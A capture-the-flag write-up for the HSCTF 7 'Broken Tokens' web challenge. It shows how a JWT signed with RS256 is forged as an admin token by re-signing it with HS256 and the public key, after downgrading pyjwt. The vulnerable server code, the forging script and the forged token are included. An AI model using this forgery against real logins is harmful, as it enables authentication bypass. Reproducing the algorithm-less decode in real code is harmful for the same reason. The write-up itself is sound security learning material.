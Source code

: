 ```yaml
---
title: Broken Tokens
date: 2020-06-06
tags: web
ctf: HSCTF 7
---
```

# Broken Tokens

**Tags:** web

## Problem
```
I made a login page, is it really secure?

https://broken-tokens.web.hsctf.com/

Note: If you receive an "Internal Server Error" (HTTP Status Code 500), that means that your cookie is incorrect.

Author: hmmm
```

The program also provided [main.py](./files/main.py) which appeared to be the code on the server.

## Solution
The page greets us with a web portal login, and a public key file ([publickey.pem](./files/publickey.pem)). Upon inspection, the login seemed to use server sided authentication. Trying to login with random credentials showed us a page stating ```Logged in as guest``` and left a cookie named ```auth```:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJhdXRoIjoiZ3Vlc3QifQ.e3UX6vGuTGHWouov4s5HuKn6B5zbe0ZjxwHCB_OQlX_TcntJuj89x0RDi8gQi88TMoXSFN-qnFUQxillB_nD5ErrVZKL8HI5Ah_iQBX1xfu097H2xT3LAhDEceq4HDEQY-iC4TVSxMGM0AS_ItsVLBIrxk8tapcANvCW_KnO3mEFwfQOD64YHtapSZJ-kKjdN19lgdI_g-2nNI83P6TlgLtZ8vo1BB1zt_8b4UECSiPb67YCsrCYIIsABq5UyxSwgUpZsM6oxW0k1c4NbaUTnUWURG2qWDVw56svRQETU3YjO59AMj67n9r9Y9NJ9FBlpHQ60Ck-mfL5JcmFE9sgVw
```

The format appears to be a JWT token. Using a [web JWT tool](https://jwt.io/), we can decode the token to find more information. The header contains:
```
{
  "typ": "JWT",
  "alg": "RS256"
}
```
and there is a payload:
```
{
  "auth": "guest"
}
```

We need to create a modified JWT token that contained ```"auth": "admin"``` to gain access to the admin page, which contains the flag. The JWT token is signed using the RS256 algorithm, which is an asymmetric algorithm that uses a private and public keypair. Without any other vulnerabilities, we would need to bruteforce the private key in order to sign a modified token, which is practically impossible. Looking at the server code ([main.py](./files/main.py)), we can find some information about how the token is validated:

```
import jwt

with open("publickey.pem", "r") as f:
	PUBLIC_KEY = f.read()

def index():
	else:
		auth = request.cookies.get("auth")
		if auth is None:
			logged_in = False
			admin = False
		else:
			logged_in = True
			admin = jwt.decode(auth, PUBLIC_KEY)["auth"] == "admin"
		resp = make_response(
			render_template("index.html", logged_in=logged_in, admin=admin, flag=FLAG)
		)
	return resp
```
The server decodes the JWT token with the following line:
```
admin = jwt.decode(auth, PUBLIC_KEY)["auth"] == "admin"
```

Looking at the [pyjwt API reference](https://pyjwt.readthedocs.io/en/latest/api.html), we note that the implementation of jwt.decode() did not specify an algorithm. This means that we can attempt to create a JWT token using a different algorithm, such as HS256, which is a symmetric algorithm that uses a secret key to sign the JWT. pyjwt would then use the ```PUBLIC_KEY``` as the secret key. Since we know what ```PUBLIC_KEY``` is, we can easily create a valid token.

Copying the usage of pyjwt and opening publickey.pem in the exact same method (to prevent weird errors with newlines): ([brokentokens.py](./files/brokentokens.py))
```
import jwt

f = open("publickey.pem", "r")
PUBLIC_KEY = f.read()

key = jwt.encode({"auth": "admin"}, PUBLIC_KEY, algorithm="HS256")
print(key)
```

When attempting to run the code, we get an error:
```
"File "C:\Python38\lib\site-packages\jwt\algorithms.py", line 150, in prepare_key
    raise InvalidKeyError(
jwt.exceptions.InvalidKeyError: The specified key is an asymmetric key or x509 certificate and should not be used as an HMAC secret."
```

It seems like newer versions of pyjwt prevent signing JWT tokens with HMAC keys that are formatted as an RSA key. We can bypass this by installing an older version of pyjwt (<=0.4.3) where the exception was not implemented yet. After ```pip install pyjwt==0.4.3```, we get our new JWT token:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoiYWRtaW4ifQ.MfoiS9XkQHMOw2Y6uQJrw0gM2NUfGYM-1Sz-SzKvad4
```

When we swap our cookie with the new JWT token, we are now logged in as admin and are greeted with the flag!

```
Logged in as admin
The flag is flag{1n53cur3_tok3n5_5474212}
```

**Flag:** ```flag{1n53cur3_tok3n5_5474212}```